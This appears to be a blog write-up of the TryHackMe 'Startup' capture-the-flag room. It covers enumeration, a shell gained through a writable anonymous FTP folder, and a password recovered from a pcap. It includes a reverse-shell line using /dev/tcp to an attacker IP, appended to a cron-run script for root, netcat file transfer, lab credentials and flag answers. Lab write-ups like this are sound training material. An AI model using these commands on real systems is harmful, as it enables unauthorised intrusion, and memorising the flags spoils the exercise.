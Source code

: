 ```yaml
---
title: "Startup"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="startup.png" alt="startup" style="width: 200px;" >}}

## Enumeration


```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAzds8QxN5Q2TsERsJ98huSiuasmToUDi9JYWVegfTMV4Fn7t6/2ENm/9uYblUv+pLBnYeGo3XQGV23foZIIVMlLaC6ulYwuDOxy6KtHauVMlPRvYQd77xSCUqcM1ov9d00Y2y5eb7S6E7zIQCGFhm/jj5ui6bcr6wAIYtfpJ8UXnlHg5f/mJgwwAteQoUtxVgQWPsmfcmWvhreJ0/BF0kZJqi6uJUfOZHoUm4woJ15UYioryT6ZIw/ORL6l/LXy2RlhySNWi6P9y8UXrgKdViIlNCun7Cz80Cfc16za/8cdlthD1czxm4m5hSVwYYQK3C7mDZ0/jung0/AJzl48X1
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOKJ0cuq3nTYxoHlMcS3xvNisI5sKawbZHhAamhgDZTM989wIUonhYU19Jty5+fUoJKbaPIEBeMmA32XhHy+Y+E=
|   256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnFr/4W5WTyh9XBSykso6eSO6tE0Aio3gWM8Zdsckwo
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
[Status: 200, Size: 808, Words: 136, Lines: 21]
files                   [Status: 301, Size: 312, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 808, Words: 136, Lines: 21]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

If ftp is open its worth checking
haha nice meme...now we know Maya is a cool person

{{< post-img src="important.jpg" alt="important.jpg" >}}

`notice.txt`

```text
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

same files are found in the `files` directory of website by the way

```bash
binwalk important.jpg

## DECIMAL HEXADECIMAL DESCRIPTION

0 0x0 PNG image, 735 x 458, 8-bit/color RGBA, non-interlaced
57 0x39 Zlib compressed data, compressed
```

Expected that

I go back to ftp folder and notice that i missed a hidden file
but it just says `'test'` so not useful

```bash
150 Here comes the directory listing.
drwxr-xr-x 3 65534 65534 4096 Nov 12 2020 .
drwxr-xr-x 3 65534 65534 4096 Nov 12 2020 ..
-rw-r--r-- 1 0 0 5 Nov 12 2020 .test.log
drwxrwxrwx 2 65534 65534 4096 Nov 12 2020 ftp
-rw-r--r-- 1 0 0 251631 Nov 12 2020 important.jpg
-rw-r--r-- 1 0 0 208 Nov 12 2020 notice.txt
226 Directory send OK.
```

But hey we have write permission on ftp folder
lol...As it's also accessible via website we can execute a shell
And we are already in

We have no permission to access lennie folder so I wander inside

As we start from `/` we get `recipe.txt`

```bash
www-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

There is also an `incidents` folder

```bash
www-data@startup:/incidents$ ls
ls
suspicious.pcapng
```
we get that pcap file with netcat

```bash
nc 10.8.226.203 2311 < suspicious.pcapng //on remote
nc -lnvp 2311 > suspicious.pcapng // on local (listen to)
```

Mostly gibberish as expected (its supposed to be a job for wiireshark)

```bash
*ôe*ôe[sudo] password for www-data:         d       œ=:wé.ÞD   D               E  4@ @ÕÀšÀš\æ¿Çó/5²â @®  
*ôe*ôed      x       Ÿ=:cÑOW   W              E  G@ @ÁÀšÀš\æ¿Çó/5²â @®   
*ôl*ôec4ntg3t3n0ughsp1c3
 x      h       Ÿ=:FyÃOF   F               E  6%@ @gJÀšÀšæ\/5²â¿È @®  
*ôl*ôl
  h      d       Ÿ=:ŸÃOD   D               E  4@ @ÓÀšÀš\æ¿È/5²ä @®  
*ôl*ôld             Ÿ=:ÆOÞi   i             E  Y%@ @g&ÀšÀšæ\/5²ä¿È @®²  
*ôuà*ôlsudo: 3 incorrect password attempts
```

`c4ntg3t3n0ughsp1c3` looks like a password

let's find out...and it is!

we can switch user (su) or just ssh as lennie with the creds

`lennie : c4ntg3t3n0ughsp1c3`

FLag

```bash
$ cat user.txt
THM{not_enough_tartar_sauce}
```

There is also a scripts folder

```bash
$ cd scripts
$ ls -al
total 16
drwxr-xr-x 2 root root 4096 Nov 12 2020 .
drwx------ 5 lennie lennie 4096 Nov 15 16:23 ..
-rwxr-xr-x 1 root root 77 Nov 12 2020 planner.sh
-rw-r--r-- 1 root root 1 Nov 15 16:26 startup_list.txt
```

Boy a sh script belonging to Root and we can execute it...but not write to it

```bash
$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

the script refer to another one and I am pretty sure we can modify this one

```bash
$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
```

yup it belongs to lennie and we are lennie
it basically runs the print.sh just to say it is done?? XD
let's add a shell

`echo "bash -c 'exec bash -i &>/dev/tcp/10.8.226.203/2311 <&1'" >> print.sh`

maybe its a cron because I didnt even need to run `./planner.sh`

I was immediately root on my netcat listenner

```bash
root@startup:~# cat root.txt
cat root.txt
THM{add_schezuan_sauce}
```

I wonder who that pretty sus Maya is
Funny how the meme named important.jpg was not even remotely important
Merely a distraction
